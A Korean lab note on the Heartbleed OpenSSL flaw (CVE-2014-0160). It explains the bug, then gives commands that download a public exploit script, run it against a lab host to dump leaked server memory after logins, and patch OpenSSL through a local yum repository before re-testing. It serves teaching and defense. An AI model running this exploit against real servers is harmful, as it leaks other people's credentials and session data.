## Heart Bleed

- HeartBleed Attack
  - 2014년 4월에 발표된 openssl의 취약점을 이용하는 공격(취약점 코드 → CVE-2014-0160)

  - OpenSSL의 TLS/DTLS Heartbeat Extension 코드의 문제를 이용 함

    > Heartbeat Protocol → Client와 Server의 세션을 유지하기 위해 주기적으로 데이터를 전송하는 동작

    > Client로부터 전달받은 Payload Length 값을 검사하지 않고 처리함으로써 원래 전달해야 할 정보 외에 메모리 내 다른 정보까지 전달하는 취약점

  - OpenSSL 1.0.1 ~ 1.0.1f 버전에서 발생 → 취약점이 없는 버전 사용하기를 권장

    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160

- Heartbeat 구조

  - Heartbeat Request의 length/payload값과 Heartbeat Response의 length/payload 값이 일치하면 세션이 유지된다고 판단

    

- 정상 heartbeat 동

#### 실습

- kali

  - python 점검

    

  - 웹사이트 테스트 https://

    

  - 

- 공격코드 다운로드

  ```
  # wget https://www.exploit-db.com/download/32745 -O heartbleed.py
  ```

  

- python 실행 테스트

  ```
  # python ./heartbleed.py
  ```

  

- 웹사이트 로그인 실패 성공 몇번 시도후 공격코드 실행하여 확인

  ```
  # python ./heartbleed.py 172.16.0.104 > /root/h.txt
  # cat /root/h.txt
  ```

  

#### 방어

- openssl update 를 이용한 방어

  ```
  # yum update openssl
  ```

- local repo

  - CD/DVD/에 iso 넣기

    

- cd/dvd 를 /media 에 mount

  ```
  # mount /dev/sr0 /media
  ```

  

- local.repo 수정하기

  ```
  # vi /etc/yum.repos.d/local.repo
  
  [local-repo]
  name=Local Repository
  baseurl=file:///media
  enabled=1
  gpgcheck=0
  ```

  

  ```
  # mv /etc/yum.repos.d/CentOS*.repo /root
  # mv /etc/yum.repos.d/mysql*.repo /root
  # yum clean all
  ```

  

  ```
  # yum repolist
  ```

  

- 현재 openssl 버전

  ```
  # rpm -qa | grep openssl
  ```

  

- openssl 업데이트

  ```
  # yum update openssl
  ```

  

- httpd 서비스 재시작후 업데이트 적용

- 다시 공격하여 확인

  ```
  # python ./heartbleed.py 172.16.0.104 > /root/h.txt
  # cat /root/h.txt
  ```

  